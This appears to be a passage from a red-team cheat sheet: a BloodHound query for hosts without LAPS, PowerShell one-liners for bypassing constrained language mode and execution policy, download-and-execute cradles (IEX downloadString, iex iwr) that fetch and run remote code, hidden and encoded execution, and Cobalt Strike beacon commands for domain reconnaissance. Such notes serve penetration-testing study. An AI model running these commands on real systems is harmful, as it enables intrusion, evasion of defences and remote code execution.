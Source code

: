 ```
MATCH (n:Computer {haslaps:false}) RETURN n.name
```

### Powershell

```
# check constrained language mode
PS> $ExecutionContext.SessionState.LanguageMode

# easy bypass
Powershell -version 2 [...]

# download
IEX(New-Object Net.WebClient).downloadString('https://[...]')

# download v3+
iex (iwr 'https://[...]')

# no profile
powershell -nop

# execution bypass
powershell -exec bypass

# hidden
powershell -w hidden

# exec base64 command
PS> powershell -enc [...]

# check Applocker
powershell Get-ApplockerPolicy -Effective -xml

# check av
powershell Get-MpComputerStatus

# credentials
PS> $Cred = New-Object System.Management.Automation.PSCredential('vault.io\s.morese', $SecPassword) 
[...]
PS> [...] -Credential $Cred

# list pipes
PS> [System.IO.Directory]::GetFiles("\\.\\pipe\\")
```

Cobalt Strike

```
# Domain
beacon> net domain

# Domain Controller
beacon> net domain_controllers

# shares
beacon> net shares
beacon> net shares \\vault.io

# Domain User
beacon> net user \\vault.io l.smith

# all users
beacon> net user \\vault.io

```